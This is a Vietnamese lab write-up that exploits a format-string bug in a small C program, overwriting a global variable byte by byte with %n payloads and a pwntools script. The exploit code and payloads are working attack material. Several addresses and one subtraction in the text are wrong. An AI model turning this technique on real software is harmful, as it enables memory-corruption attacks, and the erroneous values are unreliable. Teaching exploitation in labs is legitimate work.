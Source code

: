 # *Lab 04 Format String*


Code C:

```c
#include <stdio.h>
int a = 123, b = 456;
int main() {
	int c = 789;
	char s[100];
	printf("%p\n", &c);
	scanf("%s", s);
	printf(s);
	if (c == 16) {
		puts("modified c.");
	} else if (a == 2) {
		puts("modified a for a small number.");
	} else if (b == 0x12345678) {
		puts("modified b for a big number!");
	}
	return 0;
}

```

Mục đích cuối của chúng ta là ghi đề biến global `b` thành `0x12345678`

## Attack

Do giá trị muốn ghi đề quá lớn nên ta không thể ghi đè trực tiếp bằng cách chèn format string vô trước đối số được `%overwtitex`. Cho nên hướng giải quyết sẽ là ghi đè từng bytes.

Cụ thể là địa chỉ của biến `b` sẽ là `0x0804C028`như vậy ta sẽ ghi đè từng bytes như sau (little edian):

- 0x0804C028 sẽ được ghi đè 0x78
- 0x0804C029 sẽ được ghi đề 0x56
- 0x0804C030 sẽ được ghi đè 0x34
- 0x0804C031 sẽ được ghi đè 0x12


## Solve

Ta tiến hành ghi lần lượt từng bytes với payload như sau:

`p32(0x0804C028)p32(0x0804C029)p32(0x0804C030)p32(0x0804C031)%ax%6$n%bx%7$n%cx%8$n%dx%9$n`

với `a,b,c,d` sẽ là giá trị để ghi đè lần lượt 4 bytes `0x78,0x56,0x34,0x12`

và `6,7,8,9` đi với `%n` là để xác định đối số truyền vào cho lần lượt 4 bytes


### Tính giá trị `a,b,c,d`

Giá trị của `a` sẽ có giá trị của `0x78 - 16 = 140`, do ở đầu payload đã có 16 bytes của 4 địa chỉ truyền vào làm đối số:

Những vị trí chưa ghi đè ta sẽ để là `10`
payload: `p32(0x0804C028)p32(0x0804C029)p32(0x0804C030)p32(0x0804C031)%104x%6$n%10x%7$n%10x%8$n%10x%9$n`

Kết quả: 

![image](https://user-images.githubusercontent.com/31529599/143366126-969a0953-ccd7-4eb6-ad12-e9ee366d5664.png)

Ta thấy bytes đầu tiên đã được ghi thành công thành `0x78`

Từ giá trị ở trên ta thấy rằng giá trị của phần tử tiếp theo đã được ghi đè lớn hơn 0x78 (thành 0x82) và không thể nào giảm `b` xuống để bằng 0x56 được nên ta sẽ thực hiện overflow thành `0x156` thì khi ghi 1 byte vào thì sẽ là `0x56` và bytes `1` sẽ được tràn vào vị trí bytes tiếp theo

`b = 0x156-0x82+10 = 222`

payload: `p32(0x0804C028)p32(0x0804C029)p32(0x0804C030)p32(0x0804C031)%104x%6$n%222x%7$n%10x%8$n%10x%9$n`

Kết quả: 

![image](https://user-images.githubusercontent.com/31529599/143366366-697e8251-6aa7-461d-b0e0-b9288900bfbf.png)


Tương tự tính cho byte thứ 3 và thứ 4:

`c = 222`
`d = 222`

Ta có payload cuối cùng sẽ là: `p32(0x0804C028)p32(0x0804C029)p32(0x0804C030)p32(0x0804C031)%104x%6$n%222x%7$n%222x%8$n%222x%9$n`

Kết quả:

![image](https://user-images.githubusercontent.com/31529599/143366593-7444eed0-089f-45f5-a4b3-0de8b8eb4198.png)


### Chạy script

Script python:

```python
from pwn import *

sh = process('./lab')
c_addr = int(sh.recvuntil('\n', drop=True), 16)
print (hex(c_addr))
a = 0x0804C028
payload =   p32(a)+p32(a+1) +p32(a+2) + p32(a+3) +b'%104x%6$n%222x%7$n%222x%8$n%222x%9$n'
f = open('payload.txt','wb')
f.write(payload)
f.close()
print (payload)
sh.sendline(payload)
print (sh.recv())
sh.interactive()

```


Kết quả:

![image](https://user-images.githubusercontent.com/31529599/143366671-a56084aa-99b1-441a-9a99-615536d6f1be.png)
